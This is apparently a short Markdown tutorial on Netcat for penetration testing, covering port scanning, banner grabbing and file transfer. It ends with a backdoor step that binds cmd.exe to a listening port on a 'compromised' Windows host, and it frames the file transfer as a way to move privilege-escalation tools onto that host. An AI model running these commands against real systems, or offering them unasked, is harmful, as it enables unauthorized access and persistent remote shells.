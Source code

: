 # Using Netcat for port scanning
The most basic form of command is:
`# nc [options] host port(s)`
options are described below
host can be either an IP address or valid hostname
Ports can be a single port or a range of ports such as 20-53 or individual ports separated by spaces.

### Let's get started
A small tool that can do remote port scanning would be nice to have and Netcat can fill this role very well and a lot of other ones.

A typical command to perform port scanning would be:
`# nc -v -w 3 -z 192.168.1.69 20-150`
The first portion of the command line that says: nc -v -w 3 which simply tells Netcat to give us more verbose feedback and to timeout after 3 seconds if no connections could be established.

The -z switch prevent Netcat from sending any data to a TCP connection and it will only send very limited data to a UDP connection.

Here is another example: you will use UDP protocol instead of the TCP protocol.
`# nc -v -w 3 -z -u 192.168.1.69 20-100`

### Using Netcat for banner grabbing
Another neat usage of Netcat is for banner grabbing(technique to glean information of the system on the Internet)
`# nc -v -n 192.168.1.69 80
GET HTTP`
Once connected above you simply issued the command: GET HTTP

### Combining both port scan and banner identification
Now we will combine both Port Scan and banner identification.
```bash
# echo GET HTTP | nc -v -n 216.58.199.228 80
```

### Using Netcat to transfer files
Netcat can be used as well to transfer files between two hosts. It can be a very effective tool to transfer the files that you need in order to escalate your privileges on a remote host.
Let's suppose we have the following scenario. You have a Windows host that you successfully compromised and you wish to transfer additional tools to it in order to escalate your privileges.
on the remote host:
`# nc -l -p 53 > toolkit.zip`
on the local host:
`# nc [remote host] 53 < toolkit.zip`

### Setting up a backdoor
You have compromised a Windows host and you wish to establish a backdoor that you will be able to connect to from your BackTrack attack machine.
on the compromised windows host:
`# nc -l -p 80 -d -e cmd.exe -L`

<!--stackedit_data:
eyJoaXN0b3J5IjpbLTg1MjM3NzE0MCw1Nzg1OTM4NDIsMTE5OT
I1Mzk3MCw5NDYwMjIzMjMsMTM3Mjk4NjIwMF19
-->
